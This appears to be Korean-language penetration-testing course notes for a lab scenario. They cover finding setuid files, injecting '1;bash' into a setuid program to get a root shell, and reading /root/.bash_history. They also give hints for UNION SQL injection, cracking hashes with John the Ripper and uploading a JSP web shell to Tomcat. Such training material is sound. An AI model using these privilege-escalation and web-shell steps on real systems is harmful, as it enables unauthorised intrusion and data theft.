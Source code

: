 ***

### 5) 서버 내 setuid 적용된 파일 확인

```sh
ssh ems@ip주소
```

SSH 접속 후, dumb shell을 bash shell로 전환

```sh
/bin/bash
```

쓸모없는 파일 제외하고 보기 기능
```sh
2>/dev/null
```

find 명령어로 setuid 적용된 파일 확인
```sh
find / -perm 4000 2>/dev/null
```

***

### 6) root 권한 획득

```sh
./Sub_pro
```

파일 실행시 Command Injection 공격 수행

```
1;bash
```

root 계정으로 bash shell 획득.

***
### 7) root 계정으로 실행했던 bash history 확인

root 디렉토리 하위의 .bash_history 파일 확인

```sh
cat /root/.bash_history
```

***

## 시나리오 2번

모 DB 서버 장악 후 유의미한 정보 확인

**힌트**
```
1. SQL Injection 취약점 찾기 or 1 = 1 ; # 등의 구문으로 취약점 찾기

2. ') UNION ~ ; # 구문 이용 SQL Injection (Day2 웹 UNION SQL Injection 문제와 구문은 동일)

3. 추가적으로 UNION SQL Injection 수행하여 정보 얻어내기

4. pw 해시값
  - 칼리 터미널 john the reaper(패스워드 크랙 툴) 사용 / john 파일명
  - 해시값 인터넷 검색도 가능

5. kali 내 jsp 웹쉘 스크립트 경로: /usr/share/webshell/jsp 내 cmdjsp.jsp 파일 사용 // WAR 압축파일로 만들어서 업로드
(Day2 17번 Tomcat Admin 실습 내용과 동일)
웹쉘의 동작 조건 2가지
- 1. 웹쉘 업로드 / 파일 업로드 취약점
```